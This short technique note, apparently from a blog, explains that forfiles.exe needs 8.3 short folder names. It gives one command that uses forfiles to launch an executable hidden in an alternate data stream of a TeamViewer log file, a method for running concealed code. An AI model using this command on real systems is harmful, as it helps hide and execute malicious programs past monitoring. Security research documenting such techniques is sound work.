

Forfiles.exe
In my testing forfiles is not very fond of spaces in paths. So it seems you have to use the 8.3 foldername for some reason.

forfiles /P C:\windows\system32 /m notepad.exe /c "c:\Progra~2\Teamviewer\TeamViewer13_Logfile.log:bginfo2.exe"